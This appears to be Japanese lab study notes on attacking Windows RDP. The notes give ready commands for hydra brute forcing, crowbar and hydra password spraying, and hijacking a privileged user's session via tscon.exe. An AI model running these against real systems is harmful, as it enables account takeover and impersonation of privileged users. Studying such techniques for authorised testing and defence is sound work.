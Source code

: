 **rdp-sec-checkを用いたセキュリティチェック**
```shell-session
git clone https://github.com/CiscoCXSecurity/rdp-sec-check.git && cd rdp-sec-check
./rdp-sec-check.pl 10.129.201.248
```

**RDPのセッションの開始**
- xfreerdp以外にも[Remmina](https://remmina.org/)、[rdesktop](http://www.rdesktop.org/)を使える
```shell-session
xfreerdp /u:<ユーザー名> /p:"<パスワード>" /v:$Target_IP /cert:ignore
```

```shell-session
xfreerdp /u: /p: /v: /cert:ignore
```

認証情報があっているのにエラーが出て、接続できない場合は、以下のオプションをつけると接続できるかも
1. `/sec:rdp`
	- **NLA (Network Level Authentication) を無効化** し、通常の RDP 認証を使用する。
	- これにより、サーバー側で `NLA` に問題があっても接続できるようになった。
2. `+sec-nla`
	- **手動で NLA を有効化** し、NLA 認証を試みる。
	- `/sec:rdp` によって通常の RDP 認証が有効になりつつ、`+sec-nla` で NLA もサポートされるため、サーバーとの相性が良くなった。

#### ブルートフォース
ベーシックな、ユーザーネームとパスワードリストを両方使うやり方
```shell-session
hydra -L user.list -P password.list rdp://$Target_IP
```

パスワードスプレー攻撃
- ターゲットがWindowsとかの場合、同じユーザーに対して、何回もパスワードを試すと、アカウントがロックされることがある。
- なので、逆にパスワードを固定して、ユーザー名で当てはまるものがないかを探す攻撃をパスワード攻撃という

crowbar
```shell-session
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
```

hydra
```shell-session
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```

#### セッションハイジャック
**前提**
- マシンへのアクセスに成功し、ローカル管理者権限を持つアカウントを持っている状態
- 他のユーザーも自分と同じようにRDPセッションで接続している
**目標**
- 特権ユーザーのRDPセッションをハイジャックする

**前提の確認**
- Powershellで`query user`で誰が何で接続しているかを確認する

**セッションの乗っ取り -準備**
- パスワードを知らなくてもユーザーになりすますには、SYSTEM 権限で、 Microsoft の tscon.exe バイナリを使用する
`tscon.exe`の構文
```sh
C:\htb> tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}
```
